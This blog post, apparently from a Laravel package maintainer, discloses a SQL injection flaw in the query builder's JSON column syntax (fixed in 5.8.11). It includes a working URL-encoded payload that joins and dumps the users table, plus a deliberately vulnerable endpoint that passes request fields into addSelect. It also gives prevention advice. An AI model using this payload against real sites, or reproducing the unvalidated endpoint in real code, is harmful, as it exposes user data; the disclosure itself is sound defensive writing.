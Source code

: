 I recently learned that not all query builder functionality in Laravel is "safe".
This means that user input shouldn't be passed directly to it, 
as it might expose your application to SQL injection vulnerabilities.

The past few days it became clear that there is little community knowledge about these unsafe functions. 
Many developers assume, as did I, that the Laravel query builder completely prevents SQL injection attacks.

This blog post aims to raise awareness about what's safe, and what's not.

## An SQL injection vulnerability?

Let's start by mentioning that this vulnerability has been fixed as of [Laravel 5.8.11](*https://github.com/laravel/framework/commits/v5.8.11).
While technically we could call this a "vulnerability", 
Laravel developers should know that they also play a role in preventing these kinds of issues.

Let's examine the issue.

Laravel has the ability to manually specify which columns to select on a query.
It also offers the shorthand notation to query JSON data:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs>');
```

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs>"') <hljs keyword>FROM</hljs> blogs;
```

Instead of manually writing `json_extract`, we can use the simplified `->` syntax, 
which Laravel will convert to the correct SQL statement.

Be careful though: Laravel won't do any escaping during this conversion. 
Consider the following example:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs><hljs red>'#</hljs>');
```

By inserting `'#` in our input, we can manually close the `json_extract` function, 
and ignore the rest of the query:

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs><hljs red>'#</hljs><hljs textgrey>"') FROM blogs;</hljs>
```

This query will fail because of syntax errors, but what about the next one?

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(
    `<hljs green>title</hljs>`, 
    '$."<hljs blue>en</hljs><hljs red>"')) 
FROM blogs RIGHT OUTER JOIN users ON users.id <> null
#</hljs>
    <hljs textgrey>"') FROM blogs;</hljs>
```

We're adding an outer join on the `users` table. 
Essentially selecting all data in it. 

For reference, this is the URL encoded version of the malicious code:

```
<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

Say we have the following endpoint in our application, to query blog posts from a public API:

```php
<hljs type>Route</hljs>::<hljs prop>get</hljs>('/posts', function (<hljs type>Request</hljs> $request) {
    $fields = $request-><hljs prop>get</hljs>('fields', []);

    $users = <hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>($fields)-><hljs prop>get</hljs>();

    return <hljs prop>response</hljs>()-><hljs prop>json</hljs>($users);
});
```

Consumers of this API might only be interested in a few fields, 
that's why we added a `fields` filter.
Something similar to [sparse fieldsets](*https://jsonapi.org/format/#fetching-sparse-fieldsets) from the JSON api spec.

The endpoint can now be used like this:

```
/blog?fields[]=url&fields[]=title
```

Now we insert our malicious code instead:

```
/blog?fields[]=<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

It will be added to the query. And by returning the query result as JSON, 
we'll see the full contents of the users table. 

```php
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>([
    '<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>'
])-><hljs prop>get</hljs>();
```

Two things need to be in place for this attack to be possible:

- An accessible API endpoint, which allows an attacker to pass his malicious code to `select` or `addSelect`.
Chances are you're not doing this manually in your project.
Though there are popular packages which provide this functionality for easy API endpoints and URL filtering.
- The entry point table must have a column with JSON data.
Otherwise the `json_extract` function will fail, stopping our query. 
From the entry point though, you can access all data.

{{ ad:google }}

## Prevention?

As mentioned before, this particular vulnerability has been fixed as of [Laravel 5.8.11](*https://github.com/laravel/framework/commits/v5.8.11).
It's always good to keep up to date with the latest Laravel version.

More importantly though, developers should never allow user input directly to specify columns, without a whitelist.
In our previous example, you could prevent this attack by only allowing certain fields to be requested, 
this would prevent the issue completely.

Next, one of our widely-used packages, `spatie/laravel-querybuilder`, 
opened up `addSelect` by design. 
This meant that websites using our package, were vulnerable to the underlying issue.
We immediately fixed it and Freek [wrote about it](*https://murze.be/an-important-security-release-for-laravel-query-builder) in depth.
If you're using our package and unable to update to the latest Laravel version, 
you should immediately update the package.

Finally, the [Laravel docs](*https://laravel.com/docs/5.8/queries) have also been updated 
to warn developers not to pass user input directly to columns when using the query builder.  
